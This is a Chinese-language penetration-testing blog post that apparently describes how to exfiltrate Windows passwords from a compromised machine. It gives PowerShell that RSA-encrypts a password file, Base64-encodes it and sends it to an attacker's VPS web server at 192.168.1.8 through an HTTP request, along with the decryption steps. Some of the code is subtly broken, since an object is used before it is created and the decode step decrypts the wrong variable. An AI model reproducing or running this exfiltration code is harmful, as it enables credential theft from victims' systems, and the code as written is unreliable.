

背景
在很多渗透测试过程中，需要实时监控一些数据，比如Windows的密码等。网上已经很多工具和方法实现，但是都只是将数据保存在本地，无法远程获取。所以一旦丢失权限，还是那不到密码。出于这个需求就开发了此脚本。
技术细节
此脚本才用powershell编写,数据通过RSA加密，HTTP协议传输，所以注定了只能传输很少的内容。此脚本工作涉及三台机器,Target，VPS，Hacker.
第一步：1
2
3
4
5
6# 生成公钥和私钥保存起来
$rsa = New-Object -TypeName System.Security.Cryptography.RSACryptoServiceProvider
$publickey = $rsa.ToXmlString("false");
$publickey;
$privatekey = $rsa.ToXmlString("true");
$privatekey;
第二步:在VPS上起一个web服务,建议安装apache。1
2
3eg.
python2 -m SimpleHTTPServer 80
python3 -m http.server 80
第三步:在target上的操作。1
2
3
4
5
6
7
8
9$rsa.FromXmlString($publickey);
$rsa = New-Object -TypeName System.Security.Cryptography.RSACryptoServiceProvider
$p = Get-Content -Path c:\temp\1.txt
$p_b = [System.Text.Encoding]::Unicode.GetBytes($p)
$e = $rsa.Encrypt($p_b,"false")
$b_64 = [Convert]::ToBase64String($e)
$url = "http://192.168.1.8/aaabbb"+$b_64
# aaabbb作为标识符
Invoke-WebRequest $url
此时 你就已经可以看到请求了。

下面是解码代码1
2
3
4$b_byte = [System.Convert]::FromBase64String($b_64)
$rsa.FromXmlString($privatekey)
$p_t = $rsa.Decrypt($e, "false")
$result = [System.Text.Encoding]::Unicode.GetString($p_t)
通过这样的几步，我们就安全的拿到了我们想要的密码。
总结
其实这是一种通用的方案，很多渗透情景都可以用这种思路。这个脚本在这里不提供全部代码，有兴趣的同学应该可以自行编写。至于这个脚本什么时间上传，如何启动，大家思路不一样，就仁者见仁智者见智了，不再本文的讨论范围内。